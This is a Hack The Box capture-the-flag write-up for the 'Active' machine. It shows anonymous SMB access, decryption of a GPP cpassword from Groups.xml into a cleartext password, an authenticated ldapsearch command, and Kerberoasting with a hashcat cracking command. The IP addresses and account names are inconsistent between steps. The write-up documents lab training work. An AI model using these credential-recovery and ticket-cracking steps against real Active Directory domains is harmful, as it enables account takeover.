





---
title: "HTB - Active"
date: 2026-01-15
platform: "HTB"
difficulty: "Easy"
tags: ["Active Directory", "GPP", "Kerberoasting"]
summary: "Exploiting GPP cpassword and Kerberoasting to compromise an Active Directory domain controller."
---

**Target IP:** `10.129.16.165`

## Enumeration

### Port Scanning

A standard Nmap scan reveals the typical Active Directory service footprint: DNS, Kerberos, LDAP, SMB, and RPC, confirming this is a Windows domain controller.



### SMB Enumeration

SMB allows anonymous login, granting read access to shared folders without valid credentials.





While browsing the share, the `active.htb` folder is found to contain a `groups.xml` file — a Group Policy Preferences (GPP) artifact known to sometimes store encrypted credentials.

```bash
┌──(kali㉿kali)-[~/…/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups]
└─$ cat Groups.xml
```

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2"
        changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
    <Properties action="U" newName="" fullName="" description=""
                cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
                changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0"
                userName="active.htb\SVC_TGS"/>
  </User>
</Groups>
```

## Foothold

The `groups.xml` file exposes a `cpassword` attribute tied to the user `SVC_TGS`. Microsoft published the GPP encryption key publicly years ago, meaning this value can be decrypted offline using `gpp-decrypt`.

```
cpassword: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

Decrypting it with `gpp-decrypt` (see [reference](https://vk9-sec.com/exploiting-gpp-sysvol-groups-xml/)) yields a cleartext password:

```
Password: GPPstillStandingStrong2k18
```

With these credentials, an authenticated LDAP query can enumerate domain user accounts:

```bash
ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' \
  -b "dc=active,dc=htb" -s sub \
  "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" \
  samaccountname | grep sAMAccountName
```

## Privilege Escalation

### Kerberoasting

The `SVC_TGS` account is a service account, making it a prime target for Kerberoasting. Requesting its service ticket and extracting the hash allows for offline cracking.



The hash is cracked using the rockyou wordlist:

```bash
hashcat -m 13100 hashes.hash /usr/share/wordlists/rockyou.txt --force
```

**Result:**
- **User:** `Administrator`
- **Password:** `<redacted>`

This grants full administrative access to the domain controller, completing the compromise of `active.htb`.
